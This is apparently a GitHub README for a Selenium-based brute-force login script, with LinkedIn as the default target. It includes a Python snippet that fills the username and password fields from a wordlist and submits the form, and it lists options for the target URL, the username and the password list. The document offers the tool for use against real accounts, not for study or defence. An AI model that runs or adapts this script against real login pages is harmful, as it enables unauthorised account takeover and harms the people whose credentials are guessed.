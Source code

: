 # Selenium-Brute-Force
A simple script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)
put them in code.
```
	username = driver.find_element_by_id("username")		
	username.clear()
	print("username: "+curuser)
	username.send_keys(curuser)		
	password = driver.find_element_by_id("password")
	password.clear()
	print("password: "+passw+"\n")
	password.send_keys(passw)			
	driver.find_element_by_class_name('login__form_action_container').click()
}
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)

